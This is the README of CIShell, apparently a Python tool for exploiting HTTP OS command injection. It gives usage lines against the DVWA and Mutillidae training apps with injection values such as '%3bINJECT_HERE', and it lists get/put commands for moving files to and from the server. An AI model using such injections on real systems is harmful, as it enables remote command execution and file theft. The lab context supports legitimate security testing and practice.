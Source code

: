 # CIShell 

**CIShell** (**C**ommand **I**njection **Shell**) is a lightweight OS command injection exploitation tool.

It emulates an 'interactive'-like shell with below features:
 - Tab completion for remote directory/file name.
 - Navigate remote directory path with `cd` command.
 - Download/Upload file with `get`/`put` command.
 - Navigate command history with arrow key (up/down).

It's intended to provide a user-friendly environment to interact with remote server via HTTP OS command injection in case interactive shell is not straightforward to obtain.

Python version 2.7.x is required to run this program on Linux and Mac OS X.

Please take a look at below projects for features not available in this tool:
 - [commix](https://github.com/commixproject/commix)
 - [weevely](https://github.com/epinna/weevely3)
 - [pyshell](https://github.com/praetorian-inc/pyshell)

## Usage
To get a list of all options:
    
`python cishell.py -h`

Running against DVWA:

`python cishell.py -u "http://x.x.x.x/dvwa/vulnerabilities/exec/index.php" -p "ip=%3bINJECT_HERE&submit=submit" -H "Cookie: security=low; PHPSESSID=66e655868605ee08d581fb5a2fbecd89"`

Running against Mutillidae:

`python cishell.py -u "http://x.x.x.x/mutillidae/index.php?page=dns-lookup.php" -p "target_host=127.0.0.1 | INJECT_HERE&dns-lookup-php-submit-button=Lookup+DNS"`

![screencast](cishell.gif)

To download remote file to local current directory in shell:

`get remote_file`

To upload local file to remote current directory in shell:

`put local_file`

## Known Issues
 - Mac OS X ships with libedit instead of GNU readline and may cause issue with command history navigation.
